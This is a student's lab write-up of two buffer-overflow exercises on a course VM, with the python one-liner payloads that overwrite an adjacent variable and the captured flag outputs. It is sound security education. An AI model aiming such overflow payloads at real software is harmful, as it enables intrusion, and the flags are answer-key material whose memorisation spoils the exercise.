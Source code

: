 ###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1025 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
